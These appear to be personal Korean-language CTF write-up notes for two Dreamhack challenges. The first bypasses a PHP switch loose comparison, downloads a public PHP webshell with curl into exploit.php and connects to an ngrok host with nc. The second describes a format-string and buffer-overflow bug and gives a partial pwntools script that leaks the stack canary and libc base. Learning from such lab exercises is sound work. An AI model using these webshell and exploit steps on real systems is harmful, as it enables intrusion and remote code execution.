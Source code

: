 
---
# Dreamhack - Switching Command

- username이 admin인지를 체크함 
- [문서](https://www.php.net/manual/en/control-structures.switch.php)를 확인해 보면 switch 문에서 느슨한 비교를 하는 것을 알 수 있음
- dockerfile을 보면 웹쉘을 을 올리는데 도움이 될만한 툴이 많이 설치되어 있음
- 그러나 대부분 $pattern에서 필터링하여 curl 정도만 사용할 수 있음


- swtich문에서 느슨한 비교를 한다는 점을 이용하여 username에 true를 넣어 우회를 할 수 있음
- 처음엔 리버스쉘을 올린다는 느낌으로 접근했는데 sh을 못써서 포기
- 빌드하고 권한을 보니 꽤 괜찮을 것 같아서 그냥 바인드쉘을 올림 

```
echo escapeshellcmd("curl https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php -o ./exploit.php");

curl https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php -o ./exploit.php

'n'c tcp://0.tcp.jp.ngrok.io 17246
nc
```


---
# Dreamhack - Titanfull
- 뱅가드에서 글자 수 제한 없이 입력받음 -> 버퍼오버플로우
- menu에서 printf() 오용 -> 포멧스트링 버그
- 아래 사진 정보들을 기반으로 익스함
- pie base로 푸는 방법도 있는 것 같은데 잘 몰라서 걍 libc base 구해서 풀었음


![[스크린샷 2024-04-09 050014.png]]

![[스크린샷 2024-04-09 050103.png]]

![[스크린샷 2024-04-09 050600.png]]

![[스크린샷 2024-04-09 050854.png]]

![[스크린샷 2024-04-09 051104.png]]

```python
from pwn import *
import sys

if sys.argv[1] == "1":
    env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu9.10_amd64.so"}
    p = process("./real_ez", env=env)
else:
    p = remote("ctf.hanbyul.me", 10013)

context.log_level = "debug"

p.sendline(b"%17$p%21$p")

p.recvuntil(b"0x")
canary = int(p.recvn(16), 16)

p.recvuntil(b"0x")
libc_base = int(p.recvn(12), 16) - 0x24083
```
